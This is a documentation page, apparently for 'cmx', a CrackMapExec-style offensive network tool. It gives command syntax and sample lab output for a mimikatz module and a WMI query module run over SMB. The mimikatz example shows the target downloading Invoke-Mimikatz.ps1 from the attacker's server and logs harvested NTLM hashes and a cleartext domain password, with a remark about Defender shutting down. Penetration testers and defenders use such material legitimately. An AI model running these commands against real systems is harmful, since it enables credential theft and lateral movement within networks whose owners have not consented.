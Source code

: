 ### Command Syntax  
`cmx smb TARGET -u Username -p Pass -kd -M mimikatz`

```
# cmx smb 192.168.0.103 -u eminem -p Admin\!23 -kd -M mimikatz
Mar.25.20 19:19:00  SMB      192.168.0.103  WIN7A   [*] Windows 6.1 Build 7601 x64 (domain:SWAMP) (signing:False) (SMBv:2.1)
Mar.25.20 19:19:00  SMB      192.168.0.103  WIN7A   [+] SWAMP\eminem:Admin!23 (Pwn3d!)
            [!] Sleeping to allow defender process to finish shutting down[!] 
Mar.25.20 19:19:10  MIMIK...    192.168.0.103        - - "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
Mar.25.20 19:19:19  MIMIK...    192.168.0.103        - - "POST / HTTP/1.1" 200 -
Mar.25.20 19:19:19  MIMIK...    192.168.0.103           swamp.local\arianna:bbc2bf2fbca9dd9ed74d3c1b55e3d727
Mar.25.20 19:19:19  MIMIK...    192.168.0.103           swamp.local\WIN7A$:42d8cf1444bb879485532fea86c9e53e
Mar.25.20 19:19:19  MIMIK...    192.168.0.103           swamp.local\arianna:User!23
Mar.25.20 19:19:19  MIMIK...    192.168.0.103        [+] Added 3 credential(s) to the database
Mar.25.20 19:19:19  MIMIK...    192.168.0.103        Saved raw Mimikatz output to /root/.cmx/logs/Mimikatz_against_192.168.0.103_on_Mar.25.20_at_1919.log
```









------------------------------------------------------------------------
# WMI Query Execution


|---------------+-------------+-------------+-------------+------------|
| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| TRUE          | false       | false       | false       | true       |
|---------------+-------------+-------------+-------------+------------|
{: .tablelines}

### Command Syntax  
`cmx smb TARGET -u Username -p Pass --wmi "QUERY"`
`cmx smb TARGET -u Username -p Pass --wmi "SELECT * FROM Win32_logicalDisk WHERE DeviceID = 'C:'"`

```
# cmx smb 192.168.0.150 -u IEUser -p Passw0rd\! --local-auth --wmi "SELECT * FROM Win32_logicalDisk WHERE DeviceID = 'C:'"
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST [*] Windows 10.0 Build 17763 x64 (domain:WIN10TEST) (signing:False) (SMBv:3.0)
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST [+] WIN10TEST\IEUser:Passw0rd! (Pwn3d!)
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST [*] Executing query:"SELECT * FROM Win32_logicalDisk WHERE DeviceID = 'C:'" over wmi...
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    Caption => C:
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    Description => Local Fixed Disk
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    InstallDate => None
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    Name => C:
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    Status => None
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    Availability => 65535
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    CreationClassName => Win32_LogicalDisk
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    ConfigManagerErrorCode => None
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    ConfigManagerUserConfig => True
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    DeviceID => C:
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    PowerManagementCapabilities => None
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    PNPDeviceID => None
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    PowerManagementSupported => True
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    StatusInfo => 65535
Apr.03.20 15:28:34  SMB      192.168.0.150 WIN10TEST    SystemCreationClassName => Win32_ComputerSystem
```